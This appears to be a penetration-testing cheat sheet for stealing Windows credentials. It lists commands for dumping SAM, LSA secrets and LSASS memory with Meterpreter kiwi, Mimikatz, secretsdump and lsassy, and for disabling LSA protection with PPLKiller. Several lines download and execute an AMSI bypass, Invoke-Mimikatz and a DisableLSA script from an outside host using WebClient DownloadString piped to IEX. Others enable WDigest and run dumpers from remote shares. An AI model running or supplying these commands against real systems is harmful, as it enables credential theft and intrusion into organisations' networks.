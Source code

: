     Local Creds (SAM, etc.):
        //Locally:
            //Meterpreter: hashdump // load kiwi; lsa_dump_secrets; lsa_dump_sam
                post/windows/gather/lsa_secrets
            //Invoke-Mimikatz.ps1:
                (new-object system.net.webclient).downloadstring('http://192.168.45.210/amsi.txt') | IEX
                (New-Object System.Net.WebClient).DownloadString('http://192.168.45.210/Invoke-Mimikatz10.ps1') | IEX
                Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "log out.txt" "lsadump::sam" "sekurlsa::logonPasswords full" "sekurlsa::credman" "exit"'
                # Dump Windows secrets, such as stored creds for scheduled tasks:
                    vault::list
                    vault::cred /patch
        //Remotely:
            secretsdump.py test.local/john:password123@10.10.10.1
                w/ hash:  secretsdump.py WORKGROUP/Administrator@10.1.1.1 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
            //MSF:  use auxiliary/scanner/smb/impacket/secretsdump; set rhosts 192.168.1.108; set smbuser administrator; set smbpass Ignite@987; exploit


    Domain Creds (cached locally):
        //address LSA if enabled
        //Enable WDigest:  reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
        //Meterpreter:
            load kiwi; creds_all
            Or:  lsa_dump_secrets; lsa_dump_sam
            load kiwi; kiwi_cmd "privilege::debug"; kiwi_cmd "sekurlsa::logonPasswords full"; kiwi_cmd "sekurlsa::credman"; kiwi_cmd "SEKURLSA::Kerberos"; kiwi_cmd "SEKURLSA::Krbtgt"; kiwi_cmd "SEKURLSA::SSP"; kiwi_cmd "SEKURLSA::Wdigest" 
        //To Disable LSA:
            //Method 1:
                reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /t REG_DWORD /v AllowInsecureGuestAuth /d 1 /f
                \\192.168.45.210\visualstudio\PPLKiller\x64\Release\PPLKiller.exe /installDriver
                \\192.168.45.210\visualstudio\PPLKiller\x64\Release\PPLKiller.exe /disableLSAProtection
                <perform dump>
                \\192.168.45.210\visualstudio\PPLKiller\x64\Release\PPLKiller.exe /uninstallDriver
            //Method 2:
                (New-Object System.Net.WebClient).DownloadString('http://192.168.45.210/DisableLSA.ps1') | IEX
        //Remote Dump:
            lsassy [-d domain] -u pixis -p P4ssw0rd targets
            lsassy [-d domain] -u pixis -H [LM:]NT targets
        //Local Dump:
            rundll32.exe \\192.168.45.215\visualstudio\Dumpert\Dumpert-DLL\x64\Release\Outflank-Dumpert-DLL.dll,Dump
                //download from c:\windows\temp
            //Decode:
                pypykatz lsa minidump /tmp/lsa/lsa.txt
            //Invoke-Mimikatz.ps1:
                (new-object system.net.webclient).downloadstring('http://192.168.45.210/amsi.txt') | IEX
                (New-Object System.Net.WebClient).DownloadString('http://192.168.45.210/Invoke-Mimikatz.ps1') | IEX
                Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "log out.txt" "sekurlsa::logonPasswords full" "sekurlsa::credman" "SEKURLSA::Kerberos" "SEKURLSA::Krbtgt" "SEKURLSA::SSP" "SEKURLSA::Wdigest" "exit"'
